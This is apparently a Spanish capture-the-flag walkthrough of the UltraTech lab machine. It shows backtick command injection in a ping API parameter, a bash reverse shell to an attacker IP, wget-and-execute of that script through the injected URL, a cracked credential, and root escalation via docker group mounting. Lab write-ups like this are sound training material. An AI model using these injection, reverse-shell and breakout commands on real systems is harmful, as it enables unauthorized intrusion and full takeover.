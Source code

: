 

<h1 align="center"> UltraTech </h1>

<p align="center"><img src="https://github.com/user-attachments/assets/4ca25e30-57bb-409e-b0a5-275124d4b027"></p>


# INTRODUCCIÓN

Nos enfrentamos contra la máquina UltraTech. Es una grey-box, y la unica información que tenemos es el nombre de la compañia y su servidor ip.

# ENUMERACIÓN

Test de conectividad

```
ping <IP>
```

![image](https://github.com/user-attachments/assets/925bfb09-e1e6-400a-bdaa-fcc3d26ceac3)

Enumeración de puertos

![image](https://github.com/user-attachments/assets/369c2400-bbe1-49bf-b7b8-306d6de87737)

- 21 - ftp
- 22 - ssh
- 8081 - http - Node.js Express framework

Si hacemos un escaner más intenso encontraremos otro puerto 

![image](https://github.com/user-attachments/assets/c4eddcb0-1c45-491d-88d0-d9873020f558)

- 31331/tcp - http Apache httpd 2.4.29 (Ubuntu)

Como vemos tenemos 2 puertos usando la aplicación web.

# FOOTHOLD

Ahora que sabemos los servicios que corren, es tiempo de explotar. 

Vamos a explorar un poco lo que vemos.

![image](https://github.com/user-attachments/assets/949a6b4e-be5c-44ae-97e7-fdc0c148a37d)

Nos encontramos esto en el puerto 8081 que nos da información sobre la API "UltraTech API v0.1.3"

![image](https://github.com/user-attachments/assets/9e1a268f-dd3e-443a-8c87-27db8913d9ba)

En este puerto nos encontramos ya cosas jugosas.

En el apartado de correo nos encontramos una información sobre dicho correo "/ultratech@yopmail.com" puede que nos sirva o no pero nosotros recolectamos la info.

Como vemos que no encontramos muchas mas cosas importantes que yo considere vamos a probar con un fuzeo

![image](https://github.com/user-attachments/assets/7e156d6a-6de2-422c-9371-dc728c935521)

![image](https://github.com/user-attachments/assets/51f44401-12a9-4415-a61f-c011671f9936)

Nos encontramos con varios directorios y inspeccionando, /js podría tener algo interesante

Nos encontramoe el archivo "api.js" el cual chekea el status de la api, haciendo pings "getAPIURL" al puero 8081, sabiendo esto probemos a irnos al puerto 8081 y poner dicha ruta.

```
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

![image](https://github.com/user-attachments/assets/eefd84f5-dfb9-4130-90fd-3b3786b898ac)

VEmos que funciona perfectamente, intentemos hacer una inserción de comandos

![image](https://github.com/user-attachments/assets/f2168265-179f-4d98-a83c-02463ac739f8)

Después de estar un rato buscando, la forma de "escapar" para poder inyectar comandos es tan simple como poner un "`" la url : 

![image](https://github.com/user-attachments/assets/ff794de9-5f4a-4ccc-8761-3a45d0e95c86)

Encontramos la base de datos en la que esta "utech.db.sqlite" pero si podemos hacer esto podemos intentar también entrar con una rev shell.

Creamos una: 

```
echo "bash -i >& /dev/tcp/10.10.78.225/4242 0>&1" > shell.sh
```

![image](https://github.com/user-attachments/assets/dcae2792-20b4-430e-a092-9ff6608a991e)

Posteriormente en la url descargamos dicho archivo y lo ejecutamos.

![image](https://github.com/user-attachments/assets/81e8dfae-3c2d-4202-aa4d-ab52e203d25c)

```
http://10.10.203.247:8081/ping?ip=`wget%20http://10.10.78.225:8000/shell.sh%20shell.sh`
http://10.10.203.247:8081/ping?ip=`bash shell.sh`
```

ATENCIÓN DEBEREMOS TENER ABIERTO UN SERVIDOR HTTP PARA LA DESCARGA Y UN NC

```
python3 -m http.server
nc -lvnp 4242
```

![image](https://github.com/user-attachments/assets/1d5fc2e7-388d-46f7-a0fa-55839b7ed749)

Estamos dentro!!!

# EXPLOTACIÓN

Posteriormente al haber entrado vamos a ver si tenemos disponibilidad de algo.

![image](https://github.com/user-attachments/assets/10fe11a4-312d-4201-98bf-75fb4a6dc14d)

![image](https://github.com/user-attachments/assets/3f276418-95ad-4afa-9d98-0f53221e8c1c)

Conseguimos dos hashes probemos a descifrarlos.

"r00t:f357a0c52799563c7c7b76c1e7543a32"

Podemos utilizar hashcat o john, pero probaremos si podemos hacerlo en la crackstation.

![image](https://github.com/user-attachments/assets/9b60706a-4f1a-491a-b5c4-1506adeec89d)

La tenemos 

r00t:n100906

Gracias a estas claves podemos entrar por ssh

![image](https://github.com/user-attachments/assets/dd0fc3a0-ed61-4855-b3cf-867a888494ee)

![image](https://github.com/user-attachments/assets/00454f19-4f0e-4f87-b0d4-e618c3a916d5)

Algo importante a resaltar esque pertenemos al grupo "docker"

![image](https://github.com/user-attachments/assets/b3f168c1-b8b8-4940-b6ea-7f617bd0871c)

Veamos si podemos tirar de ahi

![image](https://github.com/user-attachments/assets/b65bc0c5-3be0-4dfc-980a-598ff60c1638)

Guay creo que hemos encontrado el vector por donde conseguir el root, vemos que hay una imagen de bash, veamos si podemos ejecutarla.

he encontrado información por aquí [docker](https://gtfobins.github.io/gtfobins/docker/)

Nos dice que para generar una shell, podemos destrozar restricciones interactivas y crear una imagen.


```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

la diferencia esque nuestra sesión se llama "bash" con lo cual lo cambiaremos por eso y probaremos a ver si funciona.

![image](https://github.com/user-attachments/assets/d84b1b0c-b526-4f79-89aa-dbf462bc7516)

GG!!!!!!

si queremos sacar las cables ssh:

![image](https://github.com/user-attachments/assets/d072eed1-78a4-49a3-b6f6-df3586aaffa0)










